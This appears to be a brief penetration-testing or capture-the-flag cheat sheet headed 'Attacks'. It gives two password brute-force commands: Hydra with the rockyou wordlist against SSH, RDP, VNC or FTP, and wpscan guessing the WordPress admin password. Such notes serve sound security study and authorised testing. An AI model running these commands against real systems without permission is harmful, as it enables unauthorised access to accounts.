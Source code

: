 # Attacks

## Hydra

example of hydra usage is: 
`hydra -l ${user} -P /usr/share/wordlists/rockyou.txt ${RHOST} ${mode}`
modes can be eg. `ssh`, `rdp`,`vnc` or `ftp`.

## WordPress

If you find a wordpress site, it's worth checking if you can pwn the admin login with:

```
wpscan -U admin --url $RHOST/${PATH} -P /usr/share/wordlists/rockyou.txt
```
